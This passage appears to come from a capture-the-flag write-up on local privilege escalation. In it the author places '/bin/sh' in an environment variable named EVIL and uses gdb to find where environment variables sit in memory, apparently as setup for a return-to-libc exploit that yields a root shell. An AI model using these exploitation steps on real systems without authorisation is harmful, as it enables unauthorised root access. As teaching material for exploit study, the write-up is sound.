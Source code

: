 ```
GEM_PATH=/usr/local/rvm/gems/ruby-2.4.1:/usr/local/rvm/gems/ruby-2.4.1@global
SSH_TTY=/dev/pts/0
rvm_path=/usr/local/rvm
MAIL=/var/mail/user
TERM=xterm
SHELL=/bin/bash
rvm_prefix=/usr/local
SHLVL=1
LOGNAME=user
MY_RUBY_HOME=/usr/local/rvm/rubies/ruby-2.4.1
PATH=/usr/local/rvm/gems/ruby-2.4.1/bin:/usr/local/rvm/gems/ruby-2.4.1@global/bin:/usr/local/rvm/rubies/ruby-2.4.1/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin:/home/user/bin
IRBRC=/usr/local/rvm/rubies/ruby-2.4.1/.irbrc
_=/usr/bin/env
```
Hmmm, `/bin/bash` looks interesting, but not exactly what we want cause it won't give you the root privilege, we need to put out own `/bin/sh` there.
The way to do it in `LINUX` command line is :
```
user@host:/your-dir$ export EVIL=/bin/sh
user@host:/your-dir$ env
_system_type=Linux
SSH_CONNECTION=170.140.151.178 60648 172.18.1.11 22
LANG=en_US.UTF-8
rvm_bin_path=/usr/local/rvm/bin
OLDPWD=/
rvm_version=1.29.3 (latest)
RUBY_VERSION=ruby-2.4.1
GEM_HOME=/usr/local/rvm/gems/ruby-2.4.1
USER=user
PWD=/c0re
_system_version=9
HOME=/home/user
_system_name=Debian
SSH_CLIENT=170.140.151.178 60648 22
EVIL=/bin/sh
_system_arch=x86_64
GEM_PATH=/usr/local/rvm/gems/ruby-2.4.1:/usr/local/rvm/gems/ruby-2.4.1@global
SSH_TTY=/dev/pts/0
rvm_path=/usr/local/rvm
MAIL=/var/mail/user
TERM=xterm
SHELL=/bin/bash
rvm_prefix=/usr/local
SHLVL=1
LOGNAME=user
MY_RUBY_HOME=/usr/local/rvm/rubies/ruby-2.4.1
PATH=/usr/local/rvm/gems/ruby-2.4.1/bin:/usr/local/rvm/gems/ruby-2.4.1@global/bin:/usr/local/rvm/rubies/ruby-2.4.1/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin:/home/user/bin
IRBRC=/usr/local/rvm/rubies/ruby-2.4.1/.irbrc
_=/usr/bin/env
```
We now have an `EVIL` environment variable as `/bin/sh`. Yayyy!
The next step will be trying to figure out where is this variable is stored. Of course this can be achieved in `gdb`. Remember that the environment variables are only loaded to the stack when the program is running. 
```
(gdb) info variable environ
All variables matching regular expression "environ":

Non-debugging symbols:
0xf7fc6dbc  __environ
```